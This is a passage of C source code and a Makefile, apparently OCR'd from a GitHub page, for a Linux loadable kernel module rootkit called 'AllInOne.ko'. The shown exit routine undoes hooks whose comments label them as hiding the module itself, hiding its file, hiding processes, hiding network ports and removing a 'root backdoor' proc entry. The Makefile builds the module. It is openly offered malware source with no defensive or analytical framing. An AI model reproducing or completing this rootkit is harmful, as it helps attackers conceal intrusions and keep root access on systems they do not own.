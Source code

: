 ```c
//---------------------- hide self module ->
	if(real_iterate_1){
		void *dummy;
		set_f_op(iterate, SYS_MODULE_PATH, real_iterate_1, dummy);
	}
	if(real_seq_show_1){
		void *dummy;
		set_file_seq_op_1(show, PROC_MODULE_PATH, real_seq_show_1, dummy);
	}
//---------------------- hide AllInOne.ko ->
	if(real_iterate_2){
		void *dummy;
		set_f_op(iterate, ROOT_PATH, real_iterate_2, dummy);
	}
//---------------------- hide process ->
	if(real_iterate_3){
		void *dummy;
		set_f_op(iterate, PROC_PATH, real_iterate_3, dummy);
	}
//---------------------- hide port ->
	if(real_seq_show_4){
		void *dummy;
		set_afinfo_seq_op(show, NET_ENTRY, SEQ_AFINFO_STRUCT, real_seq_show_4, dummy);
	}
//---------------------- root backdoor ->
	proc_remove(entry);

	return;
}

module_init(lkm_init);
module_exit(lkm_exit);
```

### Makefile

```makefile
obj-m := AllInOne.o

KDIR := /lib/modules/$(shell uname -r)/build
PWD := $(shell pwd)

default:
	$(MAKE) -C $(KDIR) SUBDIRS=$(PWD) modules

clean:
	${MAKE} clean \
                --directory "/lib/modules/$(shell uname --release)/build" \
M="$(shell pwd)"
```